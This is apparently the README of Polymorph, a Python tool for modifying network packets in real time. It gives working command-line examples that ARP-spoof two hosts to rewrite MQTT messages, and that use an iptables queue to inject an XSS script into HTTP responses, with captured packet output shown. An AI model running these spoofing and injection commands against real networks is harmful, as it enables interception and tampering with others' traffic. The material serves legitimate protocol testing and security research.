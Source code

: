 # Polymorph

Polymorph is a framework written in Python 3 that allows the modification of network packets in real time, providing maximum control to the user over the contents of the packet. This framework is intended to provide an effective solution for real-time modification of network packets that implement practically any existing protocol, including private protocols that do not have a public specification. In addition to this, one of its main objectives is to provide the user with the maximum possible control over the contents of the packet and with the ability to perform complex processing on this information.


# Installation

## Download and installation on Linux (Recommended)

Polymorph is specially designed to be installed and run on a Linux operating system, such as Kali Linux. Before installing the framework, the following requirements must be installed:

```
apt-get install build-essential python-dev libnetfilter-queue-dev tshark tcpdump python3-pip wireshark
```
After the installation of the dependencies, the framework itself can be installed with the Python pip package manager in the following way:
```
pip3 install polymorph
```

## Docker environment

From the project root:
```
docker-compose up -d
```
To access any of the machines of the environment:
```
docker exec -ti [polymorph | alice | bob] bash
```

# Using Polymorph

The Polymorph framework is composed of two main interfaces:

 - **Polymorph:** It consists of a command console interface. It is the main interface and it is recommended to use it for complex tasks such as modifying complex protocols in the air, making modifications of types in fields of the template or modifying protocols without public specification.
 - **Phcli:** It is the command line interface of the Polymorph framework. It is recommended to use for tasks such as modification of simple protocols or execution of previously generated templates.

## Using the Polymorph main interface
For examples and documentation please refer to:

-   [English whitepaper](https://github.com/shramos/polymorph/blob/master/doc/whitepaper/whitepaper_english.pdf)
-   [Spanish whitepaper](https://github.com/shramos/polymorph/blob/master/doc/whitepaper/whitepaper_spanish.pdf)
-   [Building a Proxy Fuzzer for the MQTT protocol with Polymorph](http://www.shramos.com/2018/04/building-proxy-fuzzer-for-mqtt-protocol.html)

## Using the Phcli

### Modifying packets that implement the MQTT protocol

Let's see how to use the Polymorph command line interface to spoof the communication between two machines and modify MQTT protocol.

 - Let's start by seeing how the Polymorph framework dissects the MQTT Publish packet.
```
# phcli -p mqtt --show-fields --in-pkt test_topic

[INFO] Waiting for a network packet which implements the MQTT protocol
[INFO] The packet will be dissected to show its fields
[OK] Sniffing process started. Waiting for packets...
[OK] Packet captured. Printing the fields...

---[ RAW.MQTT ]---
str hdrflags          = 0 (0x00000030)
int msgtype           = 48 (3)
int dupflag           = 48 (0)
int qos               = 48 (0)
int retain            = 48 (0)
int len               = 24 (24)
int topic_len         = 10 (10)
str topic             = test_topic (test_topic)
str msg               = test_message (test_message)
```

 - Now that we know how polymorph dissects the MQTT Publish packets and how it names the fields, we are going to modify the `msg` field by spoofing the two remote machines that communicate using MQTT.

```
# phcli -s arp -tg 192.168.1.102 -g 192.168.1.121 -p mqtt -f msg -v "new_value" --in-pkt "test_topic"

[OK] ARP spoofing started between 192.168.1.121 and 192.168.1.102
[INFO] Polymorph needs to capture a packet like the one you want to modify in real time to learn how it is.
[INFO] It will be in sniffing mode until you generate the packet
[OK] Sniffing mode started. Waiting for packets...
[INFO] Great! Polymorph has the structure of the packet! Let's start breaking things!
[OK] Process of interception and modification of packets in real time started.
[*] Waiting for packets...

(Press Ctrl-C to exit)

###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 75
  id        = 28767
  flags     = DF
  frag      = 0
  ttl       = 63
  proto     = tcp
  chksum    = 0x471e
  src       = 192.168.1.102
  dst       = 192.168.1.121
  \options   \
###[ TCP ]### 
     sport     = 49198
     dport     = 1883
     seq       = 4046645883
     ack       = 938260113
     dataofs   = 8
     reserved  = 0
     flags     = PA
     window    = 229
     chksum    = 0x7526
     urgptr    = 0
     options   = [('NOP', None), ('NOP', None), ('Timestamp', (3643906, 1823353))]
###[ Raw ]### 
        load      = '0\x16\x00\ntest_topicnew_value'
```

### Modifying packets that implement the HTTP protocol

Let's see a last example modifying HTTP packets in localhost to inject a simple XSS. After executing the command simply navigate with your browser through an HTTP page.
```
# phcli -p tcp --in-pkt "</html>" -b "\-54:\-20" -v '"><script>alert("hacked")</script>' -ipt "iptables -A INPUT -j NFQUEUE --queue-num 1"

[INFO] Polymorph needs to capture a packet like the one you want to modify in real time to learn how it is.
[INFO] It will be in sniffing mode until you generate the packet
[OK] Sniffing mode started. Waiting for packets...
[INFO] Great! Polymorph has the structure of the packet! Let's start breaking things!
[OK] Process of interception and modification of packets in real time started.
[*] Waiting for packets...

(Press Ctrl-C to exit)

###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 898
  id        = 9382
  flags     = DF
  frag      = 0
  ttl       = 54
  proto     = tcp
  chksum    = 0xef66
  src       = 194.150.169.131
  dst       = 192.168.0.167
  \options   \
###[ TCP ]### 
     sport     = http
     dport     = 52210
     seq       = 3481765999
     ack       = 2589984605
     dataofs   = 8
     reserved  = 0
     flags     = PA
     window    = 2049
     chksum    = 0x3df4
     urgptr    = 0
     options   = [('NOP', None), ('NOP', None), ('Timestamp', (4180691237, 3065344385))]
###[ Raw ]### 
        load      = 'm Mongo\n10.  Elite World News by Dr. Dude\n11.  Elite World News by Dr. Dude\n\n\nComing soon...\n\n                                 Phrack Jolt!\n\n                       All the VMBs and TWICE the c0deZ!\n_______________________________________________________________________________\n</pre>\n\n</div>\n</div>\n\n</center>\n\n<div align="center" class="texto-2-bold">\n[ <a href="../../index.html" title="News">News</a> ]\n[ <a href="../../papers/dotnet_instrumentation.html" title="Paper Feed">Paper Feed</a> ]\n[ <a href="../../issues/69/1.html" title="Issues">Issues</a> ]\n[ <a href="../../authors.html" title="Authors">Authors</a> ]\n[ <a href="../../archives/" title="Archives">Archives</a> ]\n[ <a href="../../contact.html" title="Contact">Contact</a> ]\n</div>\n\n<div align="right" class="texto-1">\xc2\xa9 Copyl"><script>alert("hacked")</script>iv>\n</body>\n</html>\n'
```

# Release Notes
[release-notes-1.0.0](https://github.com/shramos/polymorph/blob/master/doc/release-notes/release-notes-1.0.0.md)\
[release-notes-1.0.2](https://github.com/shramos/polymorph/blob/master/doc/release-notes/release-notes-1.0.2.md)

# Contact

[shramos@protonmail.com](mailto:shramos@protonmail.com)
